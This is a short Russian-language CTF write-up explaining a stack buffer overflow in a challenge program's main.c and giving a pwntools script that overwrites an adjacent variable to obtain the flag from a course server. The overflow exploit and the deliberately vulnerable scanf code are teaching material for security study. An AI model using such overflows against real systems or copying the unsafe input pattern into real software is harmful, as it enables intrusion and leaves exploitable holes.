 Посмотрим в main.c:

```c
int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    struct {    
        char buffer[32];
        uint64_t n;
    } s;

    s.n = 0xcafebabedecafbad;
    if (scanf("%40s", s.buffer) != 1) {
        return EXIT_FAILURE;
    }

    if (s.n == 0xdeadbeefdeadc0de) {
        print_flag();
    } else {
        puts("no flag for you!");
    }

    return EXIT_SUCCESS;
}
```

Видим, что у нас в функции объявляется структура с буффером размера 32 байта и число размером 8 байтов. Они хранятся в стеке друг за дургом. Дальше видно, что происходит скан 40 символов, то есть на вход ожидается 40 байтов. Программа хочет от нас, чтобы после того, как от нас получат ввод, число в структуре было равно 0xDEADBEEFDEADC0DE. Так давайте это сделаем! Питон и pwn (pip install pwntools), ваш выход:

```python
from pwn import *

def main():
    # r = process("./shell_exec")
    r = remote("is-course.ru", 2402)
    r.send(b'1'*32+p64(0xDEADBEEFDEADC0DE))

    r.interactive()

if __name__ == '__main__':
    main()
```
В консоли получаем флаг.

Здесь важно упомянуть про p64. Эта функция пакует число из 8 байт в  байты, чтобы его можно было отправить через r.send()